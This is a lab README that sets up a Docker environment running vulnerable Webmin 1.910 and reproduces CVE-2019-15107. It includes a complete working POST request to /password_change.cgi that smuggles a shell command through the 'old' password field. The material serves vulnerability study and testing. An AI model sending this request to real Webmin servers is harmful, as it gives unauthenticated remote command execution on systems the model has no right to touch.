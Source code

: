 # Webmin Unauthenticated Remote Code Execution (CVE-2019-15107)

[中文版本(Chinese version)](README.zh-cn.md)

Webmin is a web-based system configuration tool for Unix-like systems. The vulnerability exists in the password reset page, which allows unauthenticated users to execute arbitrary commands through a simple POST request.

Referers:

- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/

## Start Vulnerability Application

Start a vulnerable Webmin 1.910 through following command:

```
docker-compose up -d
```

After the environment is started, you can see the login page of Webmin at `https://your-ip:10000`.

## Vulnerability Reproduce

The payload of the reference links is incorrect. After reading the code, I found that command can be executed only if the user parameter of the body doesn't exist. 

In short, sending a following POST request to execute command `id`:

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![](1.png)
